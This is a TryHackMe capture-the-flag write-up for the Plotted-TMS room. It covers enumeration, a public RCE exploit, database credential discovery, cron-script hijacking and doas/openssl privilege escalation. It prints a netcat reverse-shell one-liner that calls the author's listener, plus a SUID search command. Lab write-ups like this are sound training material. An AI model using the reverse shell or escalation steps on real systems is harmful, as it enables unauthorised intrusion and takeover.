 ```yaml
---
title: "Plotted-TMS TryHackMe"
date: "02-22-2022"
author: "Reda BELHAJ"
summary: "This writeup will cover the Plotted TMS room on TryHackMe. by @sa.infinity8888!"
tags: ["TryHackMe", "Ctf", "Writeup"]
image: "/images/TMS/bg.png"
---
```

Let’s take a look at the [Plotted-TMS CTF](https://tryhackme.com/room/plottedtms) on TryHackMe Created by **@sa.infinity8888**.

## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
sudo nmap 10.10.123.136 -sC -sS -Pn
```
The “Nmap Output” displayed `3` service running under port 80, 445 and 22.
![Nmap](/images/TMS/nmap.JPG)

### Dirsearch Scan
I next decided to run a Dirsearch scan on the webserver to see if there were any interesting hidden directories, by the command:
![disearch1](/images/TMS/disearch1.JPG)

After we've completed our scan, we see
![idRSA](/images/TMS/idRSA.JPG)
And with the help of [CyberChef](https://gchq.github.io/CyberChef/) we found :

```
Trust me it is not this easy..now get back to enumeration :D
```

And we also found :
![passwd](/images/TMS/passwd.JPG)
That means:

```
not this easy :D
```

And Now I run the scan in the the webserver that is on port 445:
![Nmap](/images/TMS/disearch2.JPG)

And we found:
![landing](/images/TMS/landing.JPG)
![login](/images/TMS/login.JPG)

## Exploiting
Now let’s look for exploits that we can use.

```
searchsploit Traffic Offence Management System
```
![Searchsploit](/images/TMS/searchsploit.JPG)
The Output displayed that there's **RCE**: Remote Code Execution, **SQLi**: SQL Injection, **XSS**: Cross-site scripting. And I've decide to go with the RCE vulnerability:
![getExploit](/images/TMS/getExploit.JPG)

And I modify the Exploit to:
![modify](/images/TMS/modify.JPG)

So it successfully did a RCE and uploaded a shell on the host :
![done](/images/TMS/done.JPG)

And I tried **ls** command on it:
![testLS](/images/TMS/testLS.JPG)

### Reverse Shell
I set up my netcat listener on port 4444 and I fired up Burp and sent a POST request with the following encoded payload using URL encoding:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.174.180 4444 >/tmp/f
```
![burp](/images/TMS/burp.JPG)

**Great!** I received a reverse connection on my port 4444. And I've upgraded the shell: 
![shell](/images/TMS/shell.JPG)

### Database Discovery
Now we're in the machine and I decided to take a look at the `initialize.php` file which gave me the username and the password for accessing the database:
![initPHP](/images/TMS/initPHP.JPG)

Then I tried to connect to the database using the credentials of last file. And I found some **Password Hashs**:
![mysql1](/images/TMS/mysql1.JPG)
![mysql2](/images/TMS/mysql2.JPG)

## User Flag
Inside the home directory of the `plot_admin` user. I notice a file called `user.txt` but I didn't have the rights to access it. 
![permDenied](/images/TMS/permDenied.JPG)

As I was exploring I tried to look at the contab file:
![crontab](/images/TMS/crontab.JPG)

**Interesting** we found a script called `backup`.
![crontab](/images/TMS/backup.JPG)

Then I tried to remove the original backup script and rewrite another one that will help me get a reverse shell with [reverse-shell-generator](https://www.revshells.com/):
![backup2](/images/TMS/backup2.JPG)

And when I run `date` command I got a shell on my listner, and I got the flag:
![userFLAG](/images/TMS/userFLAG.JPG)

## Root Flag
Now it’s time to escalate our privileges and get the root flag. 
![SUDO1](/images/TMS/SUDO1.JPG)
![SUDO2](/images/TMS/SUDO2.JPG)

So as a result of `find / -perm -u=s -type f 2>/dev/null` we found that we can run ***doas*** as root. And after some research I found that I can only openssl with the root privilege and I followed the steps of [GTFObins](https://gtfobins.github.io/) :
![SUDO2](/images/TMS/DOAS.JPG)
